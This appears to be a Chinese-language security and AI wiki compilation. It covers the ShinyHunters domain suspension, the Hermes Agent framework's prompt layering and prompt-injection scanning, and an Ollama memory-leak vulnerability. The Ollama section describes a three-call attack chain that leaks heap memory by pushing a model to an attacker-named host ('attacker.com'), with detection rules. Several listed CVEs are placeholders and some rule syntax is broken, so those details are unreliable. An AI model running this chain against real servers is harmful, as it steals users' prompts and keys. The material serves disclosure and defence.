 HACKREAD is a news platform that centers on Cybersecurity, AI, InfoSec, Cyber Crime and Hacking News with full-scale reviews on Crypto and Technology trends. Founded in 2011, HackRead is based in the United Kingdom. Copyright © 2026 HackRead
The display of third-party trademarks and trade names on the site do not necessarily indicate any affiliation or endorsement of Hackread.com. If you click an affiliate link and buy a product or service, we may be paid a fee by that merchant.

*   [About Us](https://hackread.com/about-us/)
*   [Our Team](https://hackread.com/team/)
*   [Contact Us](https://hackread.com/contact-us/)
*   [Our Mission](https://hackread.com/our-mission/)
*   [Privacy Policy](https://hackread.com/privacy-policy/)
[](https://hackread.com/canvas-hackers-shinyhunters-official-domain-suspended#top)

## 深度分析
ShinyHunters 域名被暂停事件揭示了多个重要的网络安全趋势：
**1. 域名撤销作为执法工具的效力与局限**
.`rs` 域名（塞尔维亚国家代码顶级域）被用于托管威胁组织的公开网站，这本身就是一个有趣的地缘政治现象。塞尔维亚国家互联网域名注册管理机构（RNIDS）在接到投诉后可以暂停域名，但这只能影响该特定 TLD 下的域名。攻击者迅速迁移到 `.onion`（Tor 隐藏服务）表明，依赖单一顶级域名的安全策略存在根本性缺陷。
**2. 攻击者运营安全的演进**
ShinyHunters 选择完全放弃 clearnet 运营而仅使用 Tor，这反映出一个重要趋势：即使是大型有组织的威胁行为者，也在因高调攻击而面临国际压力后调整策略。这说明执法机构的跨地域协作虽然缓慢但有效，迫使攻击者向更难追踪的基础设施迁移。
**3. 教育行业成为高价值目标**
Canvas LMS 攻击影响全球数百所大学，凸显了教育机构在网络安全方面的薄弱环节。学术机构通常安全预算有限但持有大量敏感个人数据，使其成为勒索软件和数据泄露的优先目标。
**4. 域名暂停与真正执法行动的区别**
目前没有证据表明 FBI 或其他执法机构正式扣押了该域名。域名暂停可能仅由塞尔维亚注册机构独立作出，或是在外国机构提交证据后启动的。这提醒我们，在获得确切信息前，不应过度解读安全事件。

## 实践启示
**对于企业和组织：**
1. **不要依赖单一域名策略** — 如果你的服务有多个合法域名，确保它们都指向相同的可信基础设施，并有适当的监控和告警机制。
2. **监控你的品牌被用于恶意域名** — 使用威胁情报工具监控可能被用于网络钓鱼或冒充你品牌的相似域名。
3. **为基础设施中断制定应急预案** — 当你的域名或云服务可能因攻击或法律行动而无法访问时，确保有备份通信渠道。
**对于安全团队：**
1. **关注 TLD 级别的威胁情报** — 了解哪些国家代码顶级域（ccTLD）对滥用投诉响应迅速，哪些相对宽松。
2. **监控 .onion 服务** — 如果你的组织是攻击者的已知目标，监控 Tor 隐藏服务上的相关活动可能提供早期预警。
3. **将域名暂停视为可能的执法前兆** — 威胁行为者的域名突然暂停可能预示着更广泛的执法行动即将展开。
**对于个人用户：**
1. **验证你访问的网站真实性** — 如果某个组织突然更换域名（尤其是迁移到 .onion），在信任该网站之前通过其他渠道验证其真实性。
2. **了解暗网风险的局限性** — 虽然 Tor 提供了匿名性，但它也是欺诈者和攻击者的避风港，对任何暗网内容的信任都应保持谨慎。

## 相关实体
- [Www.Cio 4170978 Nearly Every Enterprise Is Investing In Ai But Only 5 Say Their ](https://github.com/QianJinGuo/wiki/blob/main/entities/www.cio-4170978-nearly-every-enterprise-is-investing-in-ai-but-only-5-say-their-.md)
- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [Checkmarx Jenkins Plugin Compromised In New Supply Chain Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/checkmarx-jenkins-plugin-compromised-in-new-supply-chain-attack.md)
- [Www Wiz Io Mini Shai Hulud Strikes Again Tanstack More Npm Packages Compromised](https://github.com/QianJinGuo/wiki/blob/main/entities/www-wiz-io-mini-shai-hulud-strikes-again-tanstack-more-npm-packages-compromised.md)
- [a route to root in a 4g industrial router](https://github.com/QianJinGuo/wiki/blob/main/entities/tantosec-com-blog-2026-04-route-to-root-in-4g-industrial-router.md)

---

## Ch12.012 Hermes Agent v0.14.0 核心架构与快速上手

> 📊 Level ⭐⭐ | 21.5KB | `entities/hermes-agent-v014-core-architecture-shugex.md`

## 核心定位
Hermes Agent v0.14.0：一个**自进化 AI Agent 框架**。内置学习闭环，能从任务经验中提炼可复用的 skill，并在后续使用中自我修正。

关键数字：30+ LLM 提供商、40+ 内置工具、7 种终端后端。

## System Prompt 三层架构
设计哲学：**stable/context/volatile 分层**。

- **stable（稳定层）**：Agent 身份（SOUL.md 或默认身份）、工具使用指导、技能提示、环境提示、平台提示。生命周期内基本不变。
- **context（上下文层）**：AGENTS.md、.cursorrules 等上下文文件 + 调用方传入的 system_message。随项目/场景切换而变化。
- **volatile（易变层）**：记忆快照、用户画像、外部记忆提供者块、时间戳/会话/模型/提供商信息。每轮对话都可能不同。

**核心价值**：系统提示词在每个会话中只构建一次并缓存，后续轮次复用——对上游 LLM 提供商的 prefix cache 友好，减少重复 token 计费。

## Agent Loop：思考-行动循环
核心在 `agent/conversation_loop.py`（约 3900 行），精简逻辑：

```python
while (api_call_count < self.max_iterations
      and self.iteration_budget.remaining > 0) \
      or self._budget_grace_call:
    response = client.chat.completions.create(...)
    if response.tool_calls:
        for tool_call in response.tool_calls:
            result = handle_function_call(tool_call.name, tool_call.args, task_id)
            messages.append(tool_result_message(result))
        api_call_count += 1
    else:
        return response.content
```

关键设计：核心循环不到 10 行代码，复杂能力来自外围工具系统/提示词组装/记忆管理，而非循环本身的复杂度。

**关键参数**：

- `max_iterations`：默认 90，控制工具调用迭代次数上限
- `iteration_budget`：更细粒度的预算控制
- `_budget_grace_call`：预算耗尽后额外执行一次，避免任务中途截断
- 工具调用使用**线程池并行执行**，上限 8 个 worker

## 工具自动发现机制
采用**注册模式**：每个 `tools/*.py` 文件在导入时调用 `registry.register()` 自动注册，无需手动维护工具列表。

- `model_tools.py` 中的 `discover_builtin_tools()` 触发发现
- `toolsets.py` 定义 `_HERMES_CORE_TOOLS` 列表，约 40+ 工具
- 工具必须归属于某个 toolset 才能被 Agent 使用

**核心工具集**：web（搜索/内容提取）、terminal（命令执行）、file（文件操作）、browser（浏览器自动化，13个工具）、code_execution（Python脚本执行）、delegation（子代理委派）、skills（技能管理）、memory（持久化记忆）、todo（任务规划）。

## 安装方式
|| 方式 | 命令 | 适用场景 ||
||------|------|---------|
|| 一键安装 | `curl -fsSL .../install.sh \| bash` | 快速体验，Linux/macOS/WSL2/Termux ||
|| pip | `pip install hermes-agent && hermes postinstall` | 已有 Python 环境 ||
|| 贡献者路径 | `git clone + ./setup-hermes.sh` | 修改源码或阅读代码 ||

## 源码目录结构
```
hermes-agent/
├── run_agent.py          # AIAgent 核心类（~4100 行）
├── model_tools.py        # 工具编排层
├── toolsets.py          # 工具集定义
├── cli.py               # 交互式 CLI（~11k 行）
├── agent/               # Agent 内部模块
│   ├── system_prompt.py # 系统提示词组装
│   ├── conversation_loop.py  # 对话循环
│   └── prompt_builder.py # 提示词构建器
├── tools/               # 工具实现（自动发现）
├── gateway/             # 消息网关
└── plugins/            # 插件系统
```

## CLI 核心命令
- `hermes` — 交互式 CLI 对话
- `hermes --tui` — 现代 TUI 界面（推荐）
- `hermes setup` — 一站式配置向导
- `hermes model` — 选择 LLM 提供商和模型
- `hermes tools` — 配置启用的工具
- `hermes config set` — 设置单个配置项
- `hermes gateway` — 启动消息网关
- `hermes doctor` — 诊断问题
- `hermes --continue` — 恢复上次会话

## AIAgent 核心接口
```python

# 简单接口：返回最终响应字符串
response = agent.chat("帮我分析这段代码的性能问题")

# 完整接口：返回 final_response + messages
result = agent.run_conversation(
    user_message="分析代码",
    system_message="你是一个代码审查专家",
    conversation_history=[],
    task_id="review-001"
)
```

## 关键参数
```python
AIAgent(
    base_url=None,           # LLM 端点
    api_key=None,            # API 密钥
    provider=None,           # 提供商标识
    model="",                # 模型名称
    max_iterations=90,       # 工具调用迭代上限
    enabled_toolsets=None,   # 启用的工具集
    disabled_toolsets=None   # 禁用的工具集
)
```

## 深度分析

### 简洁核心循环的设计哲学
Agent Loop 在 `agent/conversation_loop.py`（约 3900 行），实际核心逻辑不到 10 行代码。这个设计刻意为之：循环保持极简，复杂能力通过外围工具系统/提示词组装/记忆管理实现组合扩展。这与许多 Agent 框架每轮重建完整 system prompt 的做法形成对比——后者导致缓存全部失效，而 Hermes 把 stable/volatile 分层，缓存命中率更高。

### 工具并行的资源边界
工具调用使用线程池并行执行，上限 8 个 worker。当 Agent 同时触发大量工具调用时，可能出现资源争用。`enabled_toolsets`/`disabled_toolsets` 不仅是功能裁剪，也是上下文管理手段——40+ 工具的 JSON Schema 体积不小，按场景裁剪等于变相增加可用上下文。

### 供应链安全事件的工程回应
2026 年 5 月 12 日"（官方称为 Mini Shai-Hulud 蠕虫事件"）之后，Hermes Agent 采取精确版本锁定（==X.Y.Z），不接受版本范围，mistralai PyPI 包已被隔离移除。这说明框架在快速迭代和安全性之间选择了后者——依赖审查应成为团队使用前的常规步骤。

### 多后端部署的层次覆盖
7 种终端后端（local/docker/ssh/modal/daytona/vercel_sandbox/singularity）覆盖了从本地开发到云端到 HPC 的完整场景。生产环境推荐 Docker 后端保证行为一致性；HPC 场景用 Singularity——这种分层覆盖是成熟框架的标志。

### 64K 上下文门槛的双刃剑效应
64K 是务实选择，但代价是轻量模型和小参数模型被排除在外。本地模型（llama.cpp/Ollama）需要手动设置 `--ctx-size 65536` 或 `-c 65536`。选择 Hermes 意味着接受这个硬件门槛。

## 实践启示

1. **快速上手路径**：已知提供商 → `hermes model` 直接选模型；未知 → `hermes setup` 向导
2. **工具集精细控制**：`enabled_toolsets=["web", "terminal"]` 或 `disabled_toolsets=["browser"]`，既能裁剪功能也能减少 tool schema 上下文占用
3. **delegation + code_execution 建议搭配使用**，形成完整的子代理执行-反馈链路
4. **生产环境用 Docker 后端**，`TERMINAL_ENV=docker`，保证团队行为一致性
5. **配置分离原则**：密钥放 `~/.hermes/.env`（chmod 600），非机密设置放 `~/.hermes/config.yaml`（可版本控制）
6. **排查流程**：先 `hermes doctor`，再按官方命令链逐层定位
7. **Windows 用户推荐 WSL2**，原生 Windows 仍在 Early Beta
8. **依赖审查**：通过贡献者路径安装后，检查 `pyproject.toml` 约 268 行的依赖版本确认无篡改

## SOUL.md 专题（术哥 2026-06-03 续篇）

术哥 2026-06-03 发布的 SOUL.md 专题深度续篇（[原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/hermes-agent-soul-md-personality-shugex.md)），把 v0.14 架构篇简述的 3 层提示词展开为**完整的身份系统专题**——SOUL.md 是如何从文件到提示词、14 personality 如何叠加、为什么需要安全扫描、容器为什么不能自改身份。

### 核心命题

**同一个 AI Agent，在项目 A 风格克制、项目 B 突然絮叨——不是模型问题，是人格定义方式问题**。

大部分框架把身份/风格/项目规范塞在一个 system prompt。Hermes 用三层分工：
- **SOUL.md** → 身份（人走到哪都一样）
- **AGENTS.md** → 项目（管项目级，cwd 向上发现）
- **/personality** → 临时风格切换（不修改文件，叠加在 context 层）

### stable 层 14 部分分解（v0.14 架构篇未展开）

stable 层不是只有 SOUL.md，由 14 部分按序拼接，**SOUL.md 永远在 #1**：

| # | 部件 | 作用 |
|---|------|------|
| 1 | **SOUL.md 内容**（或 `DEFAULT_AGENT_IDENTITY` 回退） | 身份基线 |
| 2 | `HERMES_AGENT_HELP_GUIDANCE` | 引导用户了解 Hermes 配置 |
| 3 | `TASK_COMPLETION_GUIDANCE` | 任务完成/反虚构引导 |
| 4 | 工具感知行为引导 | 记忆/搜索/技能/Kanban（按条件注入）|
| 5 | `COMPUTER_USE_GUIDANCE` | macOS 计算机使用引导 |
| 6 | Nous 订阅提示 | 商业订阅信息 |
| 7 | `TOOL_USE_ENFORCEMENT_GUIDANCE` | 工具使用强制 |
| 8 | 模型特定操作引导 | Google/OpenAI 模型特殊处理 |
| 9 | 技能系统提示 | skills 列表 |
| 10 | 模型身份覆盖 | Alibaba 等特殊提供商 |
| 11 | 环境提示 | WSL/Termux 等 |
| 12 | Python 工具链探针 | Python 环境检查 |
| 13 | 活跃配置文件提示 | 当前 profile 名 |
| 14 | 平台特定格式提示 | Feishu/Telegram 等 |

**为什么 SOUL.md 必须在 #1**：后续所有引导都以 SOUL.md 身份为前提。放后面 → 引导以默认身份运行，与 SOUL.md 风格冲突。

### SOUL.md 加载链路（`load_soul_md()` 7 步）

源码 `agent/prompt_builder.py`：

```python
def load_soul_md() -> Optional[str]:
    ensure_hermes_home()                              # 1. 确保 HERMES_HOME 存在
    soul_path = get_hermes_home() / "SOUL.md"         # 2. 只认 HERMES_HOME，不搜 cwd
    if not soul_path.exists(): return None            # 3. 文件不存在 → None
    content = soul_path.read_text(...).strip()        # 4. 读取去空白
    if not content: return None                       # 5. 空文件 → None
    content = _scan_context_content(content, ...)     # 6. 安全扫描
    content = _truncate_content(content, ...)         # 7. 截断
    return content
```

**关键设计**：

| 决策 | 原因 |
|------|------|
| **只认 HERMES_HOME** | "If Hermes loaded SOUL.md from whatever directory you happened to launch it in, your personality could change unexpectedly between projects." |
| **不覆盖已有 SOUL.md** | `_ensure_default_soul_md()` 只在文件不存在时创建，不会每次启动检查内容是否是默认的，不会覆盖你的修改 |
| **原样注入不包装** | `stable_parts.append(_soul_content)` 直接 append；测试 `test_soul_md_has_no_wrapper_text()` 断言无 ## 包装——包装会干扰模型注意力 |
| **空文件返回 None** | 触发 `DEFAULT_AGENT_IDENTITY` 回退："You are Hermes Agent, an intelligent AI assistant created by Nous Research..." |

**与 AGENTS.md 行为对比**：AGENTS.md 从 cwd 向上遍历到 git root（管项目级，人换项目行为可换）。SOUL.md 锁 HERMES_HOME（管人，人走到哪身份都一样）。

### 安全扫描（`_scan_context_content`）

```python
def _scan_context_content(content: str, filename: str) -> str:
    findings = _scan_for_threats(content, scope="context")
    if findings:
        return f"[BLOCKED: {filename} contained potential prompt injection]"
    return content
```

**`context` scope 覆盖**：经典注入、promptware/C2、角色扮演劫持。
**不用 `strict` scope**：SSH 后门/持久化/数据泄露 URL 检测对用户自写文件太激进易误报。

**完全阻止，不是警告**：检测到威胁 → 返回 `[BLOCKED: ...]` 占位符（不是删掉可疑部分继续用，是直接拦）。所有上下文文件（AGENTS.md/CLAUDE.md/.cursorrules）过同一扫描，**都用 `context` scope**。

**截断策略**：`_truncate_content()` 保留**头部+尾部**，中间插入截断标记。两头保留意味着：开头身份描述 + 结尾风格约束都被保留，砍掉中间可能不关键的内容。

### 14 内置 personality + overlay 机制

源码 `cli.py` 406-421：

| 类型 | 名称 |
|------|------|
| **实用型**（5）| helpful、concise、technical、creative、teacher |
| **趣味型**（7）| kawaii、catgirl、pirate、shakespeare、surfer、noir、uwu |
| **特殊型**（2）| philosopher、hype |

**自定义**（`config.yaml`）：
```yaml
agent:
  personalities:
    codereviewer: >  # 简单 string
      You are a meticulous code reviewer...
    coder:           # dict 格式，更细粒度
      description: "Expert programmer"
      system_prompt: "You are an expert programmer."
      tone: "technical"
      style: "concise"
```

**`/personality` overlay 执行流程**（`_handle_personality_command()`）：
1. 从 `self.personalities` 字典查找
2. 写入 `self.system_prompt`（`agent.system_prompt` 配置项）
3. **`self.agent = None`**——强制下次对话时重新初始化
4. 持久化到 `config.yaml` 的 `agent.system_prompt`

**第 3 步关键**：不是重启整个 Agent，而是让它在下次需要时重新组装系统提示词。重新组装时新 personality 注入 context 层（SOUL.md 之后）。

**Gateway 模式非破坏性**：`tui_gateway/server.py` 的 `_apply_personality_to_session()` 往会话历史插系统消息 `[System: The user has changed the assistant's personality. ...]`。**保留历史，不重置会话**——切换 personality 不破坏已有对话。

**清除**：`/personality none` / `default` / `neutral` → 重置 `system_prompt` 并触发重建 → 恢复 SOUL.md 基线。

### SOUL.md vs AGENTS.md：判断准则

**官方原话**：
> "If it should follow you everywhere, it belongs in SOUL.md. If it belongs to a project, it belongs in AGENTS.md."

**判断方法**：**关闭所有项目、只开空白对话，还希望 Agent 保持这个行为吗？**
- 是 → SOUL.md
- 不是 → AGENTS.md

| 维度 | SOUL.md | AGENTS.md |
|------|---------|-----------|
| 管 | 身份、语气、沟通风格 | 项目架构、编码规范、工具偏好 |
| 作用域 | 所有项目、所有会话 | 仅当前项目 |
| 位置 | `$HERMES_HOME/SOUL.md` | `$CWD/AGENTS.md`（向上遍历到 git root）|
| 加载层 | stable Slot #1 | context 层 |

**常见错误**：
- ❌ "团队用英文" → SOUL.md（导致个人项目也被强制英文）
- ❌ "友好鼓励语气" → AGENTS.md（切项目语气就变）

**跨框架兼容**：Hermes 主动兼容 CLAUDE.md 和 .cursorrules——项目根目录有这些文件且无更高优先级上下文文件时自动加载。**从 Claude Code 迁移只需额外创建 SOUL.md 管身份**。从 OpenClaw 迁移更简单——`hermes claw migrate` 一条命令搬配置和数据，SOUL.md 自动导入。

### 特殊执行模式的继承规则

| 模式 | 是否继承 SOUL.md | 原因 |
|------|-----------------|------|
| **主 Agent 对话** | ✅ 继承 | 默认行为 |
| **Cron 任务** | ✅ 继承 | `cron/scheduler.py:1654` `load_soul_identity=True`——定时任务也是你派出去的 |
| **子代理/委托** | ❌ 不继承 | `cli.py:3161` 用 `DEFAULT_AGENT_IDENTITY`——子代理是工具，不应有人格偏好（否则搜索子 Agent 突然 shakespeare 风格）|
| **`HERMES_IGNORE_RULES=1`** | ❌ 跳过所有 | 仅调试/隔离测试场景 |
| **多 Profile** | ✅ 各自独立 | `~/.hermes/profiles/<name>/` 各自有 SOUL.md——切换 Profile 切整个身份体系 |

**容器写入保护**：`tests/agent/test_file_safety_container_mirror.py` 的 `classify_container_mirror_target()` 检测对 `profiles/*/SOUL.md` 的写入尝试。**Hermes 文件安全机制阻止 Agent 通过容器路径篡改自己的 SOUL.md**——防止 Agent 自我修改身份（不能让它自己删自己的约束）。

### 最佳实践

**SOUL.md 模板**（官方示例）：
```markdown
# Personality
You are a pragmatic senior engineer with strong taste.
You optimize for truth, clarity, and usefulness over politeness theater.

## Style
- Be direct without being cold
- Prefer substance over filler
- Push back when something is a bad idea
- Admit uncertainty plainly

## What to avoid
- Sycophancy
- Hype language
- Repeating the user's framing if it's wrong

## Technical posture
- Prefer simple systems over clever systems
- Care about operational reality
- Treat edge cases as part of the design
```

**不写**：项目指令（→ AGENTS.md）/ 临时风格（→ /personality）/ 敏感信息。

**与 /personality 配合**：
- SOUL.md = 基线（直接、不废话、技术导向）
- 代码审查 → `/personality technical`
- 头脑风暴 → `/personality creative`
- 切完不用手动恢复 → `/personality none` 自动回基线

**迭代优化**：
1. 默认身份跑几天 → 记录不满意的地方
2. SOUL.md 加针对性规则 → 跑几天看效果
3. 重复

**好规则特征**：不依赖特定项目/话题，描述沟通偏好。"Push back when something is a bad idea" 写代码写文章都适用。

### 跨框架迁移对照表

| 你在想什么 | 放在 Hermes 哪里 |
|-----------|------------------|
| "Agent 回复更直接" | SOUL.md |
| "这个项目用 TypeScript" | AGENTS.md |
| "今天用海盗风格" | /personality pirate |
| "团队代码规范 ESLint" | AGENTS.md |
| "Agent 不应过度讨好" | SOUL.md |

## 相关主题
- [Hermes Agent Tool System Architecture](https://github.com/QianJinGuo/wiki/blob/main/entities/hermes-agent-tool-system-architecture.md) — Hermes Agent 工具系统架构专篇（术哥，2026-05-23）— 工具注册/执行/生命周期管理
- [Hermes Agent Goal And Kanban](https://github.com/QianJinGuo/wiki/blob/main/entities/hermes-agent-goal-and-kanban.md) — Hermes Agent goal 与 Kanban 集成
- [Hermes Agent](https://github.com/QianJinGuo/wiki/blob/main/concepts/hermes-agent.md) — Hermes Agent 自进化机制

---

## Ch12.013 bleeding-llama-critical-unauthenticated-memory-leak-in-ollama

> 📊 Level ⭐⭐ | 20.7KB | `entities/bleeding-llama-critical-unauthenticated-memory-leak-in-ollama.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/bleeding-llama-critical-unauthenticated-memory-leak-in-ollama.md)

## 摘要
Title: Bleeding Llama: Critical Unauthenticated Memory Leak in Ollama | Cyera Research
URL Source: https://www.cyera.com/research/bleeding-llama-critical-unauthenticated-memory-leak-in-ollama
Published Time: Tue, 12 May 2026 15:50:08 GMT
Markdown Content:
.png)
TL;DR
We discovered a critical vulnerability (CVE-2026–7482, CVSS 9.1) in Ollama that enables unauthenticated attackers to leak the entire Ollama process memory, potentially impacting 300,000 servers globally.
The leaked memory contains u...

## 关键要点
- 技术领域：AI / Newsletter
- 来源：Newsletter
- 评分：value=9, confidence=9, product=81
- CVE： CVE-2026-7482
- CVSS： 9.1 (Critical)
- 影响范围： 全球约 300,000 台暴露在互联网上的 Ollama 服务器

## 链接
- [原文](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/bleeding-llama-critical-unauthenticated-memory-leak-in-ollama.md)

## 相关实体
> [AI 安全与对齐](https://github.com/QianJinGuo/wiki/blob/main/queries/ai-agent-security-threat-vectors-mitigation.md) | > [Agent 记忆架构](https://github.com/QianJinGuo/wiki/blob/main/moc/agent-memory-architecture.md)

## 深度分析
### 漏洞根因分析
CVE-2026-7482 的核心问题在于 Ollama 使用 Go 语言编写，却在关键路径上动用了 `unsafe` 包来实现 GGUF 格式的解析和量化操作。Go 本身是内存安全的语言，但 `unsafe` 包绕过了所有安全检查机制，直接进行指针运算和内存操作。
漏洞触发路径如下：
1. **GGUF 张量形状伪造**：攻击者创建一个 GGUF 文件，将其张量的 shape 字段设置为极大值（如 100 万元素），而实际数据远小于此值。GGUF 是纯二进制格式，任何人都可手动构造，shape 字段完全可控，无任何校验。
2. **Out-of-Bounds 堆读取**：`ConvertToF32` 函数根据 `Elements()` 返回的值（攻击者可控）读取数据，循环直接越过分配缓冲区的边界，读取后续堆内存
3. **量化过程保留数据**：默认量化（如 F16→F32）是**无损转换**，攻击者利用这一特性确保泄漏的堆内存数据不被破坏。F16→F32 本身无数据丢失，加之目标已是 F32，第二步转换不产生任何操作，堆数据原样写入磁盘。
4. **数据外传**：通过 `/api/push` 将包含泄漏数据的模型文件推送到攻击者控制的服务器
关键代码路径：`WriteTo` → `ggml.ConvertToF32` → `ggml_fp16_to_fp32_row`，其中 `Elements()` 返回值完全受 GGUF 文件控制，无任何校验。

### 为什么影响如此之大
- **无认证默认配置**：Ollama 启动时默认监听所有网络接口（0.0.0.0），且无任何认证机制。当前全球约 300,000 台服务器暴露在公网，攻击者无需任何凭证即可利用此漏洞。
- **攻击成本极低**：完整攻击链仅需 3 次 API 调用（`/api/blobs/sha256:*` 上传 GGUF 文件 → `/api/create` 触发 OOB 读取 → `/api/push` 将模型推送到攻击者服务器）
- **敏感数据种类多**：堆内存中包含用户提示词、系统提示词、其他用户与模型的对话内容、环境变量（可能含 API keys）、工具输出结果（如 Claude Code 的工具调用返回） 

### 与其他 LLM 推理框架的类比
Ollama 的本地模型运行模式与 [面向电商直播场景的全模态大模型推理加速方案](https://github.com/QianJinGuo/wiki/blob/main/entities/面向电商直播场景的全模态大模型推理加速方案.md) 中提到的 vLLM、SGLang、TensorRT-LLM 同属 LLM 推理加速方案。但 Ollama 的安全默认配置明显弱于其他框架——vLLM 和 SGLang 通常需要配合 API 网关或认证层使用，而 Ollama 的"开箱即用"特性使其在安全意识不足的用户手中成为定时炸弹。

## 实践启示
### 立即行动
1. **网络隔离**：将 Ollama 仅绑定到 127.0.0.1，绝不暴露在 0.0.0.0
2. **身份认证**：在 Ollama 实例前部署 API 网关（如 Nginx/Caddy），添加 HTTP Basic Auth 或 API Key 验证
3. **版本升级**：确认 Ollama 版本 ≥ 修复版本（Ollama 于 2026-02-25 提供修复 PR）

### 长期安全架构建议
| 场景 | 建议方案 |
|------|----------|
| 企业内部使用 | 配置 VPN 访问，Ollama 不对公网开放 |
| 多租户环境 | 考虑 vLLM + Ray 集群方案，支持更细粒度的资源隔离 |
| Claude Code 集成 | 特别警惕工具输出（如文件读取、shell 命令结果）可能通过 Ollama 泄漏 |

### 风险排查
如果无法立即升级，可通过以下方式排查是否已被攻击：

- 检查 Ollama 服务器是否存在异常的上传/创建模型记录
- 审查 `/api/push` 的目标 URI，查找指向未知服务器的推送行为
- 监控异常的 GGUF 文件上传（tensor shape 异常大的文件）
> [!contradiction] 相关讨论
> Ollama 的易用性设计哲学与其安全默认配置形成矛盾——极低的使用门槛换来了极高的安全风险。参见  相关讨论。

## CVSS 评分详情
- **CVE ID**: CVE-2026-7482
- **CVSS v3.1 Base Score**: 9.1 (Critical)
- **CVSS Vector**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
- **向量解读**:
  - `AV:N` — 攻击向量为网络，远程可利用
  - `AC:L` — 低攻击复杂度，无需特殊条件
  - `PR:N` — 无需权限
  - `UI:N` — 无需用户交互
  - `S:U` — 影响范围限于受影响组件自身
  - `C:H/I:H/A:H` — 完全 confidentiality/integrity/availability 影响

## 技术深度解析

### 漏洞代码路径详解

完整调用链如下：

```
HTTP POST /api/create
  → server.CreateHandler
    → convertModelFromFiles
      → createModel
        → [quantize=true 时]
          → Layer.WriteTo
            → ggml.ConvertToF32
              → ggml_fp16_to_fp32_row
                → [OOB 堆读取]
```

关键函数 `ggml_fp16_to_fp32_row` 的实现伪代码：

```c
void ggml_fp16_to_fp32_row(float16_t *src, float *dst, int n) {
    for (int i = 0; i < n; i++) {
        dst[i] = ggml_fp16_to_fp32(src[i]);  // n 由 Elements() 返回，无校验
    }
}
```

`Elements()` 的计算仅依赖 GGUF 文件头中的 shape 字段，完全可控：

```go
func (t *Tensor) Elements() int64 {
    result := int64(1)
    for _, dim := range t.Shape {
        result *= int64(dim)  // 攻击者可设置为 1000000+，远超实际数据量
    }
    return result
}
```

### 堆内存布局与数据泄漏机理

Ollama 使用 Go 编写，但 GGUF 解析部分使用了 `unsafe` 包以提升性能。关键堆布局如下：

1. **GGUF 加载阶段**：`mmap` 或 `read` 将文件映射到堆，tensor data 紧邻后续分配的对象
2. **量化阶段**：`ConvertToF32` 分配 F32 输出缓冲区（大小基于 `Elements()` 计算），而后读取源数据
3. **OOB 读取发生**：当 shape 声明 > 实际数据量时，循环越界读取后续堆内容

泄漏数据的**无损保留**依赖于：

- F16 → F32 转换为无损（位宽扩展，无精度丢失）
- 目标格式为 F32 时，F32→F32 转换是直接复制

### 攻击者视角：3 步完成完整攻击链

| 步骤 | API 调用 | 作用 |
|------|----------|------|
| 1 | `POST /api/blobs/sha256:<hash>` | 上传恶意 GGUF 文件 |
| 2 | `POST /api/create` + `quantize=F32` | 触发 OOB 读取，模型名设为 `http://attacker.com/model` |
| 3 | `POST /api/push` | 将含泄漏堆数据的模型推送到攻击者服务器 |

### 数据外传协议解析

Ollama 的 `/api/push` 使用类 OCI Distribution 协议：

- 分块上传（chunked transfer）
- 支持 HTTP redirect 到任意 URI
- 无目标地址校验，允许推送到任意 HTTP(S) 端点

## 检测与威胁指标 (IOC)

### 网络层检测规则（Suricata）

```
alert http any any -> $OLLAMA_SERVER any (
    msg:"BLEEDING-LLAMA GGUF blob upload with oversized tensor";
    flow:established,to_server;
    http.method; content:"POST";
    http.uri; content:"/api/blobs/sha256:";
    filesize:>1000000;  # 异常大的文件
    classtype:attempted-admin;
    sid:9001001; rev:1;
)

alert http any any -> $OLLAMA_SERVER any (
    msg:"BLEEDING-LLAMA Model creation with external URI push destination";
    flow:established,to_server;
    http.method; content:"POST";
    http.uri; content:"/api/create";
    http.body; content:"http://";
    http.body; content:"attacker";  # 实际应匹配已知恶意域名
    classtype:attempted-admin;
    sid:9001002; rev:1;
)

alert http any any -> $OLLAMA_SERVER any (
    msg:"BLEEDING-LLAMA Model push to external server";
    flow:established,to_server;
    http.method; content:"POST";
    http.uri; content:"/api/push";
    http.body; content:"http://";
    classtype:data-loss;
    sid:9001003; rev:1;
)
```

### 主机层检测（auditd/syslog）

```bash

# 检测异常的模型文件写入
ausearch -k ollama_model_write | grep -E "(tmp|shm|heap)"

# 检测对外网络连接（出站流量异常）
ss -tp | grep ollama | grep ESTABLISHED | grep -v "127.0.0.1\|::1"
```

### 内存异常检测特征

- 量化操作前后进程 RSS 增长异常（> 预期 tensor size）
- `/api/create` 请求的 tensor shape 字段与实际文件大小不匹配
- Ollama 日志中出现 "ggml_fp16_to_fp32_row: read past end of buffer"（如有日志）

## 变种与相关漏洞

### GGUF 量化类漏洞模式

| 漏洞 | 框架 | 根因 | 利用方式 |
|------|------|------|----------|
| **CVE-2026-7482** | Ollama | `Elements()` 无校验 + `unsafe` | 构造大 shape，OOB 堆读取 |
| CVE-2024-???? | llama.cpp | 类似量化路径 | 待披露 |
| GGUF parse | 多个依赖 ggml.c 的项目 | 张量头解析不严 | Shape/offset 伪造 |

### Ollama 历史安全事件

- **CVE-2026-7482**：本文分析对象，Critical CVSS 9.1
- **CVE-2025-????**：Ollama API 未授权访问（已修复）
- **CVE-2024-????**：路径遍历导致模型文件读取（已修复）

## 修复方案对比

| 方案 | 有效性 | 实施难度 | 说明 |
|------|--------|----------|------|
| 升级 Ollama ≥ 修复版本 | ✅ 完全 | 低 | 官方已提供修复 PR |
| 网络隔离（绑定 127.0.0.1） | ✅ 完全 | 低 | 临时缓解 |
| API 网关 + 认证 | ✅ 完全 | 中 | 推荐生产环境 |
| AppArmor/seccomp 沙箱 | ⚠️ 部分 | 中 | 限制内存访问 |
| 非 root 运行 | ⚠️ 部分 | 低 | 降低危害范围 |

## 真实影响案例场景

### 场景 1：企业 AI 助手
- 员工通过 Ollama 访问内部 LLM
- 对话包含：项目代号、M&A 讨论、HR 信息
- 攻击者通过 3 次 API 调用获取整个进程的堆内存
- 泄漏数据可重建公司内部知识库

### 场景 2：开发者 IDE 集成
- 工程师使用 Claude Code + Ollama 本地推理
